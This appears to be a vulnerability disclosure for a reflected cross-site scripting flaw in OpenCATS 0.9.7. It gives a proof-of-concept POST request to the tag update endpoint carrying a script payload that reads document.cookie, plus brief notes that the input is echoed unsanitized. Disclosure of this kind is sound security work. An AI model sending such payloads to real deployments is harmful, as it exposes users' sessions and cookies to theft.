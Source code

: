 # Reflected XSS in onChangeTag
Date: 2022/12/25

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL&POC
`http://192.168.2.153/src/opencats/index.php?m=settings&a=ajax_tags_upd`

POST:`tag_title=<script>alert(document.cookie);</script>`

## Result show
Just visit `http://192.168.2.153/src/opencats/index.php?m=settings&a=ajax_tags_upd` and post `tag_title=<script>alert(document.cookie);</script>`, then the reflected XSS
will be triggered.

![image](https://user-images.githubusercontent.com/71068573/209461938-1ffd3a14-6fb1-41d5-bae7-d8860c7d4789.png)

## Source code analysis
Directly echo the content of POST, it should be deleted.

![image](https://user-images.githubusercontent.com/71068573/209461981-1bd70292-d0f7-4bb5-b47f-9a09ce2e1073.png)

![image](https://user-images.githubusercontent.com/71068573/209461971-e1f54bb9-112c-4875-b165-907cbb19e02e.png)
